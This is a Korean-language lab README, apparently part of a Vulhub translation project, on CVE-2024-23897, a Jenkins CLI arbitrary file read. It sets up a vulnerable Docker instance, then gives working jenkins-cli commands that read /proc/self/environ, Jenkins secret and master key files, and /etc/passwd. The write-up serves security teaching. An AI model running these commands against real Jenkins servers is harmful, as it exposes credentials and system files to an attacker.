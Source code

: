 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.    
**발견된 취약점**    
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.    
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.     
**args4j**    
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.    
```
docker compose up -d
 ```    
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
``` http://localhost:8080/ ``` or ``` http://본인-ip주소:8080/ ```
![](스크린샷 2025-04-27 181243.png)        
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'           
**컨테이너 접속하기**        
 ```
docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```

## PoC
1. ```jenkins-cli.jar```을 해당 링크, ```http://localhost:8080/jnlpJars/jenkins-cli.jar```로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. ```/proc/self/environ``` 파일을 읽는다. ```JENKINS_HOME=/var/jenkins_home```
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```
![](image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```
![](image3.png)
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```
![](image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```
![](image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

